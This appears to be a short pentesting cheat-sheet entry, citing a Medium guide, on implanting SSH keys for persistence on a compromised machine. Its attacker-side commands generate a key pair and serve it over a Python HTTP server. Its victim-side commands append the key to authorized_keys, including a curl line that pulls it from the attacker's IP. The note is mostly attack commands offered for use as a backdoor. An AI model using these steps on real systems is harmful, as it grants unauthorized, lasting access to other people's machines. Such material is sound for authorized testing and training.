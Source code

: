 https://medium.com/@cuncis/implanting-ssh-keys-a-step-by-step-guide-with-command-examples-f57b21690854

The following are steps on how to generate SSH keys and use them to gain access. Use this in instances where reverse shells are unstable, if you need persistence, etc...

Kali
```bash
# Create key pair, specify specifics

ssh-keygen -t <format(rsa,dsa,etc...)> -f <output_name>

# modify perms on key

chmod 400 <private_key>

# Host on python server (optional)

python3 -m http.server <port>
```

Victim
```bash
# Append public key to authorized_keys

echo "<public_key_contents>" >> /path/to/.ssh/authorized_keys

# curl variant

curl <kali_ip>:<port>/<public_key>  >> /path/to/.ssh/authorized_keys

```
